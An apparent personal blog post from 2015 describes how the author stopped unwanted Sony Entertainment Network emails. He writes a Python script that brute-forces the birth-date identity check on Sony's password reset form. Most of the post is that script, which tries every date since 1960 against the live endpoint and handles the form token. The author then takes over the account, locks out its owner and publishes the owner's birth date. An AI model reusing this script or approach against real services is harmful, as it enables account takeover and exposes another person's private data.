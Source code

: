 ```yaml
---
uid: 770
title: Sony Entertainment Network spam stopper
date: 2015-09-13T00:53:20+00:00
author: fvicente
layout: single
guid: ?p=770
categories:
  - Programming FAQ
  - Software Development
tags:
  - network
  - playstation
  - python
  - sony
  - spam
comments: true
excerpt: How to avoid Sony Entertainment Network e-mail notifications for an account that someone created using your address
---
```

I don&#8217;t have a Sony PlayStation. But someone nicknamed &#8220;STRONDHA&#8221; has one, and somehow he managed to use my personal e-mail address to create his account. Oddly, Sony didn&#8217;t send any e-mail asking to confirm my e-mail as the owner of the account, and starting spamming every time this person bought a game in their virtual store.

<!--more-->

[<img src="{{ site.baseurl }}/images/sony_spam.png" alt="Sony sending unwanted e-mails"/>]({{ site.baseurl }}/images/sony_spam.png)

## Stop it

My name is too common, and is not the first time I get subscribed to some site I didn&#8217;t ask to. Sometimes, I just click on the &#8220;unsubscribe&#8221; link, or even on &#8220;forgot my password&#8221; and do whatever I need to stop receiving undesired e-mails.

So, I tried the &#8220;forget my password&#8221; trick with Sony, and after some captcha validation, I received an e-mail with a link. The problem is that they required the birthday in order to reset the password, and of course, I don&#8217;t know the birthday of the person that created the account.

Enters python script to try every possible birthday date from 1/1/1960 until today.

### Notes

* You will need to change the base URL to whatever you received in the password reset e-mail from Sony

* You might need to change the &#8216;wrong date&#8217; message to match your local language &#8211; mine is in portuguese (just try any date on the browser, and -unless you&#8217;re so lucky to select the actual birth date- copy and paste the error message on the code)

{% highlight python %}
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import urllib
import urllib2
import datetime
import sys
import time

from HTMLParser import HTMLParser

# create a subclass and override the handler methods
class MyHTMLParser(HTMLParser):
    def handle_starttag(self, tag, attrs):
        attrs_dict = dict(attrs)
        if tag == "input" and attrs_dict.get('name', '') == "blah_token":
            setattr(self, "value", attrs_dict.get("value"))

    def handle_endtag(self, tag):
        pass

    def handle_data(self, data):
        pass


values = {
    'struts.token.name' : 'blah_token',
    'blah_token': '',
    'verifyType': 'dob',
    'account.dob': '1',
    'account.mob': '1',
    'account.yob': '1980',
}

#
# IMPORTANT: paste the URL received in the change password e-mail in the url variable, the url looks something like this:
# https://account.sonyentertainmentnetwork.com/reg/account/validate-forgot-password-token!input.action?token=***some token here***&request_locale=pt_BR&service-entity=np
#
url = '*** PASTE URL HERE ***'
url_post = "https://account.sonyentertainmentnetwork.com/liquid/reg/account/forgot-password-verify-identity.action"

s = requests.session()
r = s.get(url)
date = datetime.datetime(1960, 1, 1, 1, 1, 1)
today = datetime.datetime.today()
while date < today: 
    date += datetime.timedelta(days=1)
    # find token
    parser = MyHTMLParser()
    parser.feed(r.text)
    if not hasattr(parser, "value"):
        print "!!!!! FOUND %s" % date.isoformat()
        break
    val = getattr(parser, "value")
    print "blah_token = %r" % val
    values['blah_token'] = val
    values['account.dob'] = str(date.day)
    values['account.mob'] = str(date.month)
    values['account.yob'] = str(date.year)
    r = s.post(url_post, values)
    #
    # IMPORTANT: The message is in portuguese, you will need to change this message to match your language
    #
    if u'A data de nascimento inserida é inválida. Verifique a data e tente novamente.' in r.text:
        print "birthday is not %s" % date.isoformat()
    else:
        print "!!!!! FOUND %s" % date.isoformat()
        break
    sys.stdout.flush()
{% endhighlight %}

[See sony.py on gist](https://gist.github.com/fvicente/75980d0d00d759b06e50)

STHRONDHA was born on January 23 of 1983 (or at least that&#8217;s the date he choose when creating his account). So, now I was able to change the password and stop receiving e-mails from Sony. I guess he will need to create a new account now muahahaha.
